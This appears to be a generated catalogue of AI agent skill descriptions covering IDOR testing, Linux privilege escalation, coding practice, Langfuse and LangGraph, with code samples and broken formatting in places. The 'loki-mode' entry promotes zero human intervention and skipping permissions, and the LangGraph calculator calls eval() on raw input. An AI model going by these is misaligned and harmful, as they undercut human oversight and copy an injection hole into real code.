| Personal project | ❌ Optional |

---

---

## IDOR Vulnerability Testing
- **ID**: `idor-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test for insecure direct object references," "find IDOR vulnerabilities," "exploit broken access control," "enumerate user IDs or object references," or "bypass authorization to access other users' data." It provides comprehensive guidance for detecting, exploiting, and remediating IDOR vulnerabilities in web applications.

### Purpose
Provide systematic methodologies for identifying and exploiting Insecure Direct Object Reference (IDOR) vulnerabilities in web applications. This skill covers both database object references and static file references, detection techniques using parameter manipulation and enumeration, exploitation via Burp Suite, and remediation strategies for securing applications against unauthorized access.

### Behavior & Constraints
### Operational Boundaries
- Requires at least two valid user accounts for verification
- Some applications use session-bound tokens instead of IDs
- GUID/UUID references harder to enumerate but not impossible
- Rate limiting may restrict enumeration attempts
- Some IDOR requires chained vulnerabilities to exploit

### Detection Challenges
- Horizontal privilege escalation (user-to-user) vs vertical (user-to-admin)
- Blind IDOR where response doesn't confirm access
- Time-based IDOR in asynchronous operations
- IDOR in websocket communications

### Legal Requirements
- Only test applications with explicit authorization
- Document all testing activities and findings
- Do not access, modify, or exfiltrate real user data
- Report findings through proper disclosure channels

---

## Infinite Gratitude
- **ID**: `infinite-gratitude`
- **Confidence**: `1.0`

### Description
Multi-agent research skill for parallel research execution (10 agents, battle-tested with real case studies).

### When to Use
Use this skill when you need to perform extensive, parallelized research on a topic, leveraging multiple agents to gather and synthesize information more efficiently than a single linear process.

---

## inngest
- **ID**: `inngest`
- **Confidence**: `0.5`

### Description
"Inngest expert for serverless-first background jobs, event-driven workflows, and durable execution without managing queues or workers. Use when: inngest, serverless background job, event-driven workflow, step function, durable execution."

---

## interactive-portfolio
- **ID**: `interactive-portfolio`
- **Confidence**: `1.0`

### Description
"Expert in building portfolios that actually land jobs and clients - not just showing work, but creating memorable experiences. Covers developer portfolios, designer portfolios, creative portfolios, and portfolios that convert visitors into opportunities. Use when: portfolio, personal website, showcase work, developer portfolio, designer portfolio."

### When to Use
### Portfolio Architecture

Structure that works for portfolios

**When to use**: When planning portfolio structure

```javascript

### When to Use
### The 30-Second Test
In 30 seconds, visitors should know:
1. Who you are
2. What you do
3. Your best work
4. How to contact you

### Essential Sections
| Section | Purpose | Priority |
|---------|---------|----------|
| Hero | Hook + identity | Critical |
| Work/Projects | Prove skills | Critical |
| About | Personality + story | Important |
| Contact | Convert interest | Critical |
| Testimonials | Social proof | Nice to have |
| Blog/Writing | Thought leadership | Optional |

### Navigation Patterns
```
Option 1: Single page scroll
- Best for: Designers, creatives
- Works well with animations
- Mobile friendly

Option 2: Multi-page
- Best for: Lots of projects
- Individual case study pages
- Better for SEO

Option 3: Hybrid
- Main sections on one page
- Detailed case studies separate
- Best of both worlds
```

### Hero Section Formula
```
[Your name]
[What you do in one line]
[One line that differentiates you]
[CTA: View Work / Contact]
```
```

### Project Showcase

How to present work effectively

**When to use**: When building project sections

```javascript

### When to Use
### Project Card Elements
| Element | Purpose |
|---------|---------|
| Thumbnail | Visual hook |
| Title | What it is |
| One-liner | What you did |
| Tech/tags | Quick scan |
| Results | Proof of impact |

### Case Study Structure
```
1. Hero image/video
2. Project overview (2-3 sentences)
3. The challenge
4. Your role
5. Process highlights
6. Key decisions
7. Results/impact
8. Learnings (optional)
9. Links (live, GitHub, etc.)
```

### Showing Impact
| Instead of | Write |
|------------|-------|
| "Built a website" | "Increased conversions 40%" |
| "Designed UI" | "Reduced user drop-off 25%" |
| "Developed features" | "Shipped to 50K users" |

### Visual Presentation
- Device mockups for web/mobile
- Before/after comparisons
- Process artifacts (wireframes, etc.)
- Video walkthroughs for complex work
- Hover effects for engagement
```

### Developer Portfolio Specifics

What works for dev portfolios

**When to use**: When building developer portfolio

```javascript

---

## internal-comms
- **ID**: `internal-comms-anthropic`
- **Confidence**: `1.0`

### Description
A set of resources to help me write all kinds of internal communications, using the formats that my company likes to use. Claude should use this skill whenever asked to write some sort of internal communications (status reports, leadership updates, 3P updates, company newsletters, FAQs, incident reports, project updates, etc.).

### When to Use
To write internal communications, use this skill for:
- 3P updates (Progress, Plans, Problems)
- Company newsletters
- FAQ responses
- Status reports
- Leadership updates
- Project updates
- Incident reports

---

## internal-comms
- **ID**: `internal-comms-community`
- **Confidence**: `1.0`

### Description
A set of resources to help me write all kinds of internal communications, using the formats that my company likes to use. Claude should use this skill whenever asked to write some sort of internal communications (status reports, leadership updates, 3P updates, company newsletters, FAQs, incident reports, project updates, etc.).

### When to Use
To write internal communications, use this skill for:
- 3P updates (Progress, Plans, Problems)
- Company newsletters
- FAQ responses
- Status reports
- Leadership updates
- Project updates
- Incident reports

---

## javascript-mastery
- **ID**: `javascript-mastery`
- **Confidence**: `1.0`

### Description
"Comprehensive JavaScript reference covering 33+ essential concepts every developer should know. From fundamentals like primitives and closures to advanced patterns like async/await and functional programming. Use when explaining JS concepts, debugging JavaScript issues, or teaching JavaScript fundamentals."

### When to Use
Use this skill when:

- Explaining JavaScript concepts
- Debugging tricky JS behavior
- Teaching JavaScript fundamentals
- Reviewing code for JS best practices
- Understanding language quirks

---

---

## kaizen
- **ID**: `kaizen`
- **Confidence**: `1.0`

### Description
Guide for continuous improvement, error proofing, and standardization. Use this skill when the user wants to improve code quality, refactor, or discuss process improvements.

### When to Use
**Always applied for:**

- Code implementation and refactoring
- Architecture and design decisions
- Process and workflow improvements
- Error handling and validation

**Philosophy:** Quality through incremental progress and prevention, not perfection through massive effort.

### When to Use
### 1. Continuous Improvement (Kaizen)

Small, frequent improvements compound into major gains.

#### Principles

**Incremental over revolutionary:**

- Make smallest viable change that improves quality
- One improvement at a time
- Verify each change before next
- Build momentum through small wins

**Always leave code better:**

- Fix small issues as you encounter them
- Refactor while you work (within scope)
- Update outdated comments
- Remove dead code when you see it

**Iterative refinement:**

- First version: make it work
- Second pass: make it clear
- Third pass: make it efficient
- Don't try all three at once

<Good>
```typescript
// Iteration 1: Make it work
const calculateTotal = (items: Item[]) => {
  let total = 0;
  for (let i = 0; i < items.length; i++) {
    total += items[i].price * items[i].quantity;
  }
  return total;
};

// Iteration 2: Make it clear (refactor)
const calculateTotal = (items: Item[]): number => {
return items.reduce((total, item) => {
return total + (item.price \* item.quantity);
}, 0);
};

// Iteration 3: Make it robust (add validation)
const calculateTotal = (items: Item[]): number => {
if (!items?.length) return 0;

return items.reduce((total, item) => {
if (item.price < 0 || item.quantity < 0) {
throw new Error('Price and quantity must be non-negative');
}
return total + (item.price \* item.quantity);
}, 0);
};

````
Each step is complete, tested, and working
</Good>

<Bad>
```typescript
// Trying to do everything at once
const calculateTotal = (items: Item[]): number => {
  // Validate, optimize, add features, handle edge cases all together
  if (!items?.length) return 0;
  const validItems = items.filter(item => {
    if (item.price < 0) throw new Error('Negative price');
    if (item.quantity < 0) throw new Error('Negative quantity');
    return item.quantity > 0; // Also filtering zero quantities
  });
  // Plus caching, plus logging, plus currency conversion...
  return validItems.reduce(...); // Too many concerns at once
};
````

Overwhelming, error-prone, hard to verify
</Bad>

#### In Practice

**When implementing features:**

1. Start with simplest version that works
2. Add one improvement (error handling, validation, etc.)
3. Test and verify
4. Repeat if time permits
5. Don't try to make it perfect immediately

**When refactoring:**

- Fix one smell at a time
- Commit after each improvement
- Keep tests passing throughout
- Stop when "good enough" (diminishing returns)

**When reviewing code:**

- Suggest incremental improvements (not rewrites)
- Prioritize: critical → important → nice-to-have
- Focus on highest-impact changes first
- Accept "better than before" even if not perfect

### 2. Poka-Yoke (Error Proofing)

Design systems that prevent errors at compile/design time, not runtime.

#### Principles

**Make errors impossible:**

- Type system catches mistakes
- Compiler enforces contracts
- Invalid states unrepresentable
- Errors caught early (left of production)

**Design for safety:**

- Fail fast and loudly
- Provide helpful error messages
- Make correct path obvious
- Make incorrect path difficult

**Defense in layers:**

1. Type system (compile time)
2. Validation (runtime, early)
3. Guards (preconditions)
4. Error boundaries (graceful degradation)

#### Type System Error Proofing

<Good>
```typescript
// Error: string status can be any value
type OrderBad = {
  status: string; // Can be "pending", "PENDING", "pnding", anything!
  total: number;
};

// Good: Only valid states possible
type OrderStatus = 'pending' | 'processing' | 'shipped' | 'delivered';
type Order = {
status: OrderStatus;
total: number;
};

// Better: States with associated data
type Order =
| { status: 'pending'; createdAt: Date }
| { status: 'processing'; startedAt: Date; estimatedCompletion: Date }
| { status: 'shipped'; trackingNumber: string; shippedAt: Date }
| { status: 'delivered'; deliveredAt: Date; signature: string };

// Now impossible to have shipped without trackingNumber

````
Type system prevents entire classes of errors
</Good>

<Good>
```typescript
// Make invalid states unrepresentable
type NonEmptyArray<T> = [T, ...T[]];

const firstItem = <T>(items: NonEmptyArray<T>): T => {
  return items[0]; // Always safe, never undefined!
};

// Caller must prove array is non-empty
const items: number[] = [1, 2, 3];
if (items.length > 0) {
  firstItem(items as NonEmptyArray<number>); // Safe
}
````

Function signature guarantees safety
</Good>

#### Validation Error Proofing

<Good>
```typescript
// Error: Validation after use
const processPayment = (amount: number) => {
  const fee = amount * 0.03; // Used before validation!
  if (amount <= 0) throw new Error('Invalid amount');
  // ...
};

// Good: Validate immediately
const processPayment = (amount: number) => {
if (amount <= 0) {
throw new Error('Payment amount must be positive');
}
if (amount > 10000) {
throw new Error('Payment exceeds maximum allowed');
}

const fee = amount \* 0.03;
// ... now safe to use
};

// Better: Validation at boundary with branded type
type PositiveNumber = number & { readonly \_\_brand: 'PositiveNumber' };

const validatePositive = (n: number): PositiveNumber => {
if (n <= 0) throw new Error('Must be positive');
return n as PositiveNumber;
};

const processPayment = (amount: PositiveNumber) => {
// amount is guaranteed positive, no need to check
const fee = amount \* 0.03;
};

// Validate at system boundary
const handlePaymentRequest = (req: Request) => {
const amount = validatePositive(req.body.amount); // Validate once
processPayment(amount); // Use everywhere safely
};

````
Validate once at boundary, safe everywhere else
</Good>

#### Guards and Preconditions

<Good>
```typescript
// Early returns prevent deeply nested code
const processUser = (user: User | null) => {
  if (!user) {
    logger.error('User not found');
    return;
  }

  if (!user.email) {
    logger.error('User email missing');
    return;
  }

  if (!user.isActive) {
    logger.info('User inactive, skipping');
    return;
  }

  // Main logic here, guaranteed user is valid and active
  sendEmail(user.email, 'Welcome!');
};
````

Guards make assumptions explicit and enforced
</Good>

#### Configuration Error Proofing

<Good>
```typescript
// Error: Optional config with unsafe defaults
type ConfigBad = {
  apiKey?: string;
  timeout?: number;
};

const client = new APIClient({ timeout: 5000 }); // apiKey missing!

// Good: Required config, fails early
type Config = {
apiKey: string;
timeout: number;
};

const loadConfig = (): Config => {
const apiKey = process.env.API_KEY;
if (!apiKey) {
throw new Error('API_KEY environment variable required');
}

return {
apiKey,
timeout: 5000,
};
};

// App fails at startup if config invalid, not during request
const config = loadConfig();
const client = new APIClient(config);

````
Fail at startup, not in production
</Good>

#### In Practice

**When designing APIs:**
- Use types to constrain inputs
- Make invalid states unrepresentable
- Return Result<T, E> instead of throwing
- Document preconditions in types

**When handling errors:**
- Validate at system boundaries

- Use guards for preconditions
- Fail fast with clear messages
- Log context for debugging

**When configuring:**
- Required over optional with defaults
- Validate all config at startup
- Fail deployment if config invalid
- Don't allow partial configurations

### 3. Standardized Work
Follow established patterns. Document what works. Make good practices easy to follow.

#### Principles

**Consistency over cleverness:**
- Follow existing codebase patterns
- Don't reinvent solved problems
- New pattern only if significantly better
- Team agreement on new patterns

**Documentation lives with code:**
- README for setup and architecture
- CLAUDE.md for AI coding conventions
- Comments for "why", not "what"
- Examples for complex patterns

**Automate standards:**
- Linters enforce style
- Type checks enforce contracts
- Tests verify behavior
- CI/CD enforces quality gates

#### Following Patterns

<Good>
```typescript
// Existing codebase pattern for API clients
class UserAPIClient {
  async getUser(id: string): Promise<User> {
    return this.fetch(`/users/${id}`);
  }
}

// New code follows the same pattern
class OrderAPIClient {
  async getOrder(id: string): Promise<Order> {
    return this.fetch(`/orders/${id}`);
  }
}
````

Consistency makes codebase predictable
</Good>

<Bad>
```typescript
// Existing pattern uses classes
class UserAPIClient { /* ... */ }

// New code introduces different pattern without discussion
const getOrder = async (id: string): Promise<Order> => {
// Breaking consistency "because I prefer functions"
};

````
Inconsistency creates confusion
</Bad>

#### Error Handling Patterns

<Good>
```typescript
// Project standard: Result type for recoverable errors
type Result<T, E> = { ok: true; value: T } | { ok: false; error: E };

// All services follow this pattern
const fetchUser = async (id: string): Promise<Result<User, Error>> => {
  try {
    const user = await db.users.findById(id);
    if (!user) {
      return { ok: false, error: new Error('User not found') };
    }
    return { ok: true, value: user };
  } catch (err) {
    return { ok: false, error: err as Error };
  }
};

// Callers use consistent pattern
const result = await fetchUser('123');
if (!result.ok) {
  logger.error('Failed to fetch user', result.error);
  return;
}
const user = result.value; // Type-safe!
````

Standard pattern across codebase
</Good>

#### Documentation Standards

<Good>
```typescript
/**
 * Retries an async operation with exponential backoff.
 *
 * Why: Network requests fail temporarily; retrying improves reliability
 * When to use: External API calls, database operations
 * When not to use: User input validation, internal function calls
 *
 * @example
 * const result = await retry(
 *   () => fetch('https://api.example.com/data'),
 *   { maxAttempts: 3, baseDelay: 1000 }
 * );
 */
const retry = async <T>(
  operation: () => Promise<T>,
  options: RetryOptions
): Promise<T> => {
  // Implementation...
};
```
Documents why, when, and how
</Good>

#### In Practice

**Before adding new patterns:**

- Search codebase for similar problems solved
- Check CLAUDE.md for project conventions
- Discuss with team if breaking from pattern
- Update docs when introducing new pattern

**When writing code:**

- Match existing file structure
- Use same naming conventions
- Follow same error handling approach
- Import from same locations

**When reviewing:**

- Check consistency with existing code
- Point to examples in codebase
- Suggest aligning with standards
- Update CLAUDE.md if new standard emerges

### 4. Just-In-Time (JIT)

Build what's needed now. No more, no less. Avoid premature optimization and over-engineering.

#### Principles

**YAGNI (You Aren't Gonna Need It):**

- Implement only current requirements
- No "just in case" features
- No "we might need this later" code
- Delete speculation

**Simplest thing that works:**

- Start with straightforward solution
- Add complexity only when needed
- Refactor when requirements change
- Don't anticipate future needs

**Optimize when measured:**

- No premature optimization
- Profile before optimizing
- Measure impact of changes
- Accept "good enough" performance

#### YAGNI in Action

<Good>
```typescript
// Current requirement: Log errors to console
const logError = (error: Error) => {
  console.error(error.message);
};
```
Simple, meets current need
</Good>

<Bad>
```typescript
// Over-engineered for "future needs"
interface LogTransport {
  write(level: LogLevel, message: string, meta?: LogMetadata): Promise<void>;
}

class ConsoleTransport implements LogTransport { /_... _/ }
class FileTransport implements LogTransport { /_ ... _/ }
class RemoteTransport implements LogTransport { /_ ..._/ }

class Logger {
private transports: LogTransport[] = [];
private queue: LogEntry[] = [];
private rateLimiter: RateLimiter;
private formatter: LogFormatter;

// 200 lines of code for "maybe we'll need it"
}

const logError = (error: Error) => {
Logger.getInstance().log('error', error.message);
};

````
Building for imaginary future requirements
</Bad>

**When to add complexity:**
- Current requirement demands it
- Pain points identified through use
- Measured performance issues
- Multiple use cases emerged

<Good>
```typescript
// Start simple
const formatCurrency = (amount: number): string => {
  return `$${amount.toFixed(2)}`;
};

// Requirement evolves: support multiple currencies
const formatCurrency = (amount: number, currency: string): string => {
  const symbols = { USD: '$', EUR: '€', GBP: '£' };
  return `${symbols[currency]}${amount.toFixed(2)}`;
};

// Requirement evolves: support localization
const formatCurrency = (amount: number, locale: string): string => {
  return new Intl.NumberFormat(locale, {\n    style: 'currency',
    currency: locale === 'en-US' ? 'USD' : 'EUR',
  }).format(amount);
};
````

Complexity added only when needed
</Good>

#### Premature Abstraction

<Bad>
```typescript
// One use case, but building generic framework
abstract class BaseCRUDService<T> {
  abstract getAll(): Promise<T[]>;
  abstract getById(id: string): Promise<T>;
  abstract create(data: Partial<T>): Promise<T>;
  abstract update(id: string, data: Partial<T>): Promise<T>;
  abstract delete(id: string): Promise<void>;
}

class GenericRepository<T> { /_300 lines _/ }
class QueryBuilder<T> { /_ 200 lines_/ }
// ... building entire ORM for single table

````
Massive abstraction for uncertain future
</Bad>

<Good>
```typescript
// Simple functions for current needs
const getUsers = async (): Promise<User[]> => {
  return db.query('SELECT * FROM users');
};

const getUserById = async (id: string): Promise<User | null> => {
  return db.query('SELECT * FROM users WHERE id = $1', [id]);
};

// When pattern emerges across multiple entities, then abstract
````

Abstract only when pattern proven across 3+ cases
</Good>

#### Performance Optimization

<Good>
```typescript
// Current: Simple approach
const filterActiveUsers = (users: User[]): User[] => {
  return users.filter(user => user.isActive);
};

// Benchmark shows: 50ms for 1000 users (acceptable)
// ✓ Ship it, no optimization needed

// Later: After profiling shows this is bottleneck
// Then optimize with indexed lookup or caching

````
Optimize based on measurement, not assumptions
</Good>

<Bad>
```typescript
// Premature optimization
const filterActiveUsers = (users: User[]): User[] => {
  // "This might be slow, so let's cache and index"
  const cache = new WeakMap();
  const indexed = buildBTreeIndex(users, 'isActive');
  // 100 lines of optimization code
  // Adds complexity, harder to maintain
  // No evidence it was needed
};\
````

Complex solution for unmeasured problem
</Bad>

#### In Practice

**When implementing:**

- Solve the immediate problem
- Use straightforward approach
- Resist "what if" thinking
- Delete speculative code

**When optimizing:**

- Profile first, optimize second
- Measure before and after
- Document why optimization needed
- Keep simple version in tests

**When abstracting:**

- Wait for 3+ similar cases (Rule of Three)
- Make abstraction as simple as possible
- Prefer duplication over wrong abstraction
- Refactor when pattern clear

---

## langfuse
- **ID**: `langfuse`
- **Confidence**: `1.0`

### Description
"Expert in Langfuse - the open-source LLM observability platform. Covers tracing, prompt management, evaluation, datasets, and integration with LangChain, LlamaIndex, and OpenAI. Essential for debugging, monitoring, and improving LLM applications in production. Use when: langfuse, llm observability, llm tracing, prompt management, llm evaluation."

### When to Use
### Basic Tracing Setup

Instrument LLM calls with Langfuse

**When to use**: Any LLM application

```python
from langfuse import Langfuse

# Initialize client
langfuse = Langfuse(
    public_key="pk-...",
    secret_key="sk-...",
    host="https://cloud.langfuse.com"  # or self-hosted URL
)

# Create a trace for a user request
trace = langfuse.trace(
    name="chat-completion",
    user_id="user-123",
    session_id="session-456",  # Groups related traces
    metadata={"feature": "customer-support"},
    tags=["production", "v2"]
)

# Log a generation (LLM call)
generation = trace.generation(
    name="gpt-4o-response",
    model="gpt-4o",
    model_parameters={"temperature": 0.7},
    input={"messages": [{"role": "user", "content": "Hello"}]},
    metadata={"attempt": 1}
)

# Make actual LLM call
response = openai.chat.completions.create(
    model="gpt-4o",
    messages=[{"role": "user", "content": "Hello"}]
)

# Complete the generation with output
generation.end(
    output=response.choices[0].message.content,
    usage={
        "input": response.usage.prompt_tokens,
        "output": response.usage.completion_tokens
    }
)

# Score the trace
trace.score(
    name="user-feedback",
    value=1,  # 1 = positive, 0 = negative
    comment="User clicked helpful"
)

# Flush before exit (important in serverless)
langfuse.flush()
```

### OpenAI Integration

Automatic tracing with OpenAI SDK

**When to use**: OpenAI-based applications

```python
from langfuse.openai import openai

# Drop-in replacement for OpenAI client
# All calls automatically traced

response = openai.chat.completions.create(
    model="gpt-4o",
    messages=[{"role": "user", "content": "Hello"}],
    # Langfuse-specific parameters
    name="greeting",  # Trace name
    session_id="session-123",
    user_id="user-456",
    tags=["test"],
    metadata={"feature": "chat"}
)

# Works with streaming
stream = openai.chat.completions.create(
    model="gpt-4o",
    messages=[{"role": "user", "content": "Tell me a story"}],
    stream=True,
    name="story-generation"
)

for chunk in stream:
    print(chunk.choices[0].delta.content, end="")

# Works with async
import asyncio
from langfuse.openai import AsyncOpenAI

async_client = AsyncOpenAI()

async def main():
    response = await async_client.chat.completions.create(
        model="gpt-4o",
        messages=[{"role": "user", "content": "Hello"}],
        name="async-greeting"
    )
```

### LangChain Integration

Trace LangChain applications

**When to use**: LangChain-based applications

```python
from langchain_openai import ChatOpenAI
from langchain_core.prompts import ChatPromptTemplate
from langfuse.callback import CallbackHandler

# Create Langfuse callback handler
langfuse_handler = CallbackHandler(
    public_key="pk-...",
    secret_key="sk-...",
    host="https://cloud.langfuse.com",
    session_id="session-123",
    user_id="user-456"
)

# Use with any LangChain component
llm = ChatOpenAI(model="gpt-4o")

prompt = ChatPromptTemplate.from_messages([
    ("system", "You are a helpful assistant."),
    ("user", "{input}")
])

chain = prompt | llm

# Pass handler to invoke
response = chain.invoke(
    {"input": "Hello"},
    config={"callbacks": [langfuse_handler]}
)

# Or set as default
import langchain
langchain.callbacks.manager.set_handler(langfuse_handler)

# Then all calls are traced
response = chain.invoke({"input": "Hello"})

# Works with agents, retrievers, etc.
from langchain.agents import create_openai_tools_agent

agent = create_openai_tools_agent(llm, tools, prompt)
agent_executor = AgentExecutor(agent=agent, tools=tools)

result = agent_executor.invoke(
    {"input": "What's the weather?"},
    config={"callbacks": [langfuse_handler]}
)
```

---

## langgraph
- **ID**: `langgraph`
- **Confidence**: `1.0`

### Description
"Expert in LangGraph - the production-grade framework for building stateful, multi-actor AI applications. Covers graph construction, state management, cycles and branches, persistence with checkpointers, human-in-the-loop patterns, and the ReAct agent pattern. Used in production at LinkedIn, Uber, and 400+ companies. This is LangChain's recommended approach for building agents. Use when: langgraph, langchain agent, stateful agent, agent graph, react agent."

### When to Use
### Basic Agent Graph

Simple ReAct-style agent with tools

**When to use**: Single agent with tool calling

```python
from typing import Annotated, TypedDict
from langgraph.graph import StateGraph, START, END
from langgraph.graph.message import add_messages
from langgraph.prebuilt import ToolNode
from langchain_openai import ChatOpenAI
from langchain_core.tools import tool

# 1. Define State
class AgentState(TypedDict):
    messages: Annotated[list, add_messages]
    # add_messages reducer appends, doesn't overwrite

# 2. Define Tools
@tool
def search(query: str) -> str:
    """Search the web for information."""
    # Implementation here
    return f"Results for: {query}"

@tool
def calculator(expression: str) -> str:
    """Evaluate a math expression."""
    return str(eval(expression))

tools = [search, calculator]

# 3. Create LLM with tools
llm = ChatOpenAI(model="gpt-4o").bind_tools(tools)

# 4. Define Nodes
def agent(state: AgentState) -> dict:
    """The agent node - calls LLM."""
    response = llm.invoke(state["messages"])
    return {"messages": [response]}

# Tool node handles tool execution
tool_node = ToolNode(tools)

# 5. Define Routing
def should_continue(state: AgentState) -> str:
    """Route based on whether tools were called."""
    last_message = state["messages"][-1]
    if last_message.tool_calls:
        return "tools"
    return END

# 6. Build Graph
graph = StateGraph(AgentState)

# Add nodes
graph.add_node("agent", agent)
graph.add_node("tools", tool_node)

# Add edges
graph.add_edge(START, "agent")
graph.add_conditional_edges("agent", should_continue, ["tools", END])
graph.add_edge("tools", "agent")  # Loop back

# Compile
app = graph.compile()

# 7. Run
result = app.invoke({
    "messages": [("user", "What is 25 * 4?")]
})
```

### State with Reducers

Complex state management with custom reducers

**When to use**: Multiple agents updating shared state

```python
from typing import Annotated, TypedDict
from operator import add
from langgraph.graph import StateGraph

# Custom reducer for merging dictionaries
def merge_dicts(left: dict, right: dict) -> dict:
    return {**left, **right}

# State with multiple reducers
class ResearchState(TypedDict):
    # Messages append (don't overwrite)
    messages: Annotated[list, add_messages]

    # Research findings merge
    findings: Annotated[dict, merge_dicts]

    # Sources accumulate
    sources: Annotated[list[str], add]

    # Current step (overwrites - no reducer)
    current_step: str

    # Error count (custom reducer)
    errors: Annotated[int, lambda a, b: a + b]

# Nodes return partial state updates
def researcher(state: ResearchState) -> dict:
    # Only return fields being updated
    return {
        "findings": {"topic_a": "New finding"},
        "sources": ["source1.com"],
        "current_step": "researching"
    }

def writer(state: ResearchState) -> dict:
    # Access accumulated state
    all_findings = state["findings"]
    all_sources = state["sources"]

    return {
        "messages": [("assistant", f"Report based on {len(all_sources)} sources")],
        "current_step": "writing"
    }

# Build graph
graph = StateGraph(ResearchState)
graph.add_node("researcher", researcher)
graph.add_node("writer", writer)
# ... add edges
```

### Conditional Branching

Route to different paths based on state

**When to use**: Multiple possible workflows

```python
from langgraph.graph import StateGraph, START, END

class RouterState(TypedDict):
    query: str
    query_type: str
    result: str

def classifier(state: RouterState) -> dict:
    """Classify the query type."""
    query = state["query"].lower()
    if "code" in query or "program" in query:
        return {"query_type": "coding"}
    elif "search" in query or "find" in query:
        return {"query_type": "search"}
    else:
        return {"query_type": "chat"}

def coding_agent(state: RouterState) -> dict:
    return {"result": "Here's your code..."}

def search_agent(state: RouterState) -> dict:
    return {"result": "Search results..."}

def chat_agent(state: RouterState) -> dict:
    return {"result": "Let me help..."}

# Routing function
def route_query(state: RouterState) -> str:
    """Route to appropriate agent."""
    query_type = state["query_type"]
    return query_type  # Returns node name

# Build graph
graph = StateGraph(RouterState)

graph.add_node("classifier", classifier)
graph.add_node("coding", coding_agent)
graph.add_node("search", search_agent)
graph.add_node("chat", chat_agent)

graph.add_edge(START, "classifier")

# Conditional edges from classifier
graph.add_conditional_edges(
    "classifier",
    route_query,
    {
        "coding": "coding",
        "search": "search",
        "chat": "chat"
    }
)

# All agents lead to END
graph.add_edge("coding", END)
graph.add_edge("search", END)
graph.add_edge("chat", END)

app = graph.compile()
```

---

## last30days
- **ID**: `last30days`
- **Confidence**: `0.5`

### Description
Research a topic from the last 30 days on Reddit + X + Web, become an expert, and write copy-paste-ready prompts for the user's target tool.

---

## launch-strategy
- **ID**: `launch-strategy`
- **Confidence**: `0.5`

### Description
"When the user wants to plan a product launch, feature announcement, or release strategy. Also use when the user mentions 'launch,' 'Product Hunt,' 'feature release,' 'announcement,' 'go-to-market,' 'beta launch,' 'early access,' 'waitlist,' or 'product update.' This skill covers phased launches, channel strategy, and ongoing launch momentum."

---

## lint-and-validate
- **ID**: `lint-and-validate`
- **Confidence**: `0.5`

### Description
"Automatic quality control, linting, and static analysis procedures. Use after every code modification to ensure syntax correctness and project standards. Triggers onKeywords: lint, format, check, validate, types, static analysis."

---

## Linux Privilege Escalation
- **ID**: `linux-privilege-escalation`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "escalate privileges on Linux", "find privesc vectors on Linux systems", "exploit sudo misconfigurations", "abuse SUID binaries", "exploit cron jobs for root access", "enumerate Linux systems for privilege escalation", or "gain root access from low-privilege shell". It provides comprehensive techniques for identifying and exploiting privilege escalation paths on Linux systems.

### Purpose
Execute systematic privilege escalation assessments on Linux systems to identify and exploit misconfigurations, vulnerable services, and security weaknesses that allow elevation from low-privilege user access to root-level control. This skill enables comprehensive enumeration and exploitation of kernel vulnerabilities, sudo misconfigurations, SUID binaries, cron jobs, capabilities, PATH hijacking, and NFS weaknesses.

### Behavior & Constraints
### Operational Boundaries
- Verify kernel exploits in test environment before production use
- Failed kernel exploits may crash the system
- Document all changes made during privilege escalation
- Maintain access persistence only as authorized

### Technical Limitations
- Modern kernels may have exploit mitigations (ASLR, SMEP, SMAP)
- AppArmor/SELinux may restrict exploitation techniques
- Container environments limit kernel-level exploits
- Hardened systems may have restricted sudo configurations

### Legal and Ethical Requirements
- Written authorization required before testing
- Stay within defined scope boundaries
- Report critical findings immediately
- Do not access data beyond scope requirements

---

## Linux Production Shell Scripts
- **ID**: `linux-shell-scripting`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "create bash scripts", "automate Linux tasks", "monitor system resources", "backup files", "manage users", or "write production shell scripts". It provides ready-to-use shell script templates for system administration.

### Purpose
Provide production-ready shell script templates for common Linux system administration tasks including backups, monitoring, user management, log analysis, and automation. These scripts serve as building blocks for security operations and penetration testing environments.

### Behavior & Constraints
- Always test scripts in non-production first
- Use absolute paths to avoid errors
- Quote variables to handle spaces properly
- Many scripts require root/sudo privileges
- Use `bash -x script.sh` for debugging

---

## llm-app-patterns
- **ID**: `llm-app-patterns`
- **Confidence**: `1.0`

### Description
"Production-ready patterns for building LLM applications. Covers RAG pipelines, agent architectures, prompt IDEs, and LLMOps monitoring. Use when designing AI applications, implementing RAG, building agents, or setting up LLM observability."

### When to Use
Use this skill when:

- Designing LLM-powered applications
- Implementing RAG (Retrieval-Augmented Generation)
- Building AI agents with tools
- Setting up LLMOps monitoring
- Choosing between agent architectures

---

---

## loki-mode
- **ID**: `loki-mode`
- **Confidence**: `1.0`

### Description
Multi-agent autonomous startup system for Claude Code. Triggers on "Loki Mode". Orchestrates 100+ specialized agents across engineering, QA, DevOps, security, data/ML, business operations, marketing, HR, and customer success. Takes PRD to fully deployed, revenue-generating product with zero human intervention. Features Task tool for subagent dispatch, parallel code review with 3 specialized reviewers, severity-based issue triage, distributed task queue with dead letter handling, automatic deployment to cloud providers, A/B testing, customer feedback loops, incident response, circuit breakers, and self-healing. Handles rate limits via distributed state checkpoints and auto-resume with exponential backoff. Requires --dangerously-skip-permissions flag.

### When to Use
**CRITICAL: Use the right model for each task type. Opus is ONLY for planning/architecture.**

| Model | Use For | Examples |
|-------|---------|----------|
| **Opus 4.5** | PLANNING ONLY - Architecture & high-level decisions | System design, architecture decisions, planning, security audits |
| **Sonnet 4.5** | DEVELOPMENT - Implementation & functional testing | Feature implementation, API endpoints, bug fixes, integration/E2E tests |
| **Haiku 4.5** | OPERATIONS - Simple tasks & monitoring | Unit tests, docs, bash commands, linting, monitoring, file operations |

### Task Tool Model Parameter
```python
# Opus for planning/architecture ONLY
Task(subagent_type="Plan", model="opus", description="Design system architecture", prompt="...")

# Sonnet for development and functional testing
Task(subagent_type="general-purpose", description="Implement API endpoint", prompt="...")
Task(subagent_type="general-purpose", description="Write integration tests", prompt="...")

# Haiku for unit tests, monitoring, and simple tasks (PREFER THIS for speed)
Task(subagent_type="general-purpose", model="haiku", description="Run unit tests", prompt="...")
Task(subagent_type="general-purpose", model="haiku", description="Check service health", prompt="...")
```

### Opus Task Categories (RESTRICTED - Planning Only)
- System architecture design
- High-level planning and strategy
- Security audits and threat modeling
- Major refactoring decisions
- Technology selection

### Sonnet Task Categories (Development)
- Feature implementation
- API endpoint development
- Bug fixes (non-trivial)
- Integration tests and E2E tests
- Code refactoring
- Database migrations

### Haiku Task Categories (Operations - Use Extensively)
- Writing/running unit tests
- Generating documentation
- Running bash commands (npm install, git operations)
- Simple bug fixes (typos, imports, formatting)
- File operations, linting, static analysis
- Monitoring, health checks, log analysis
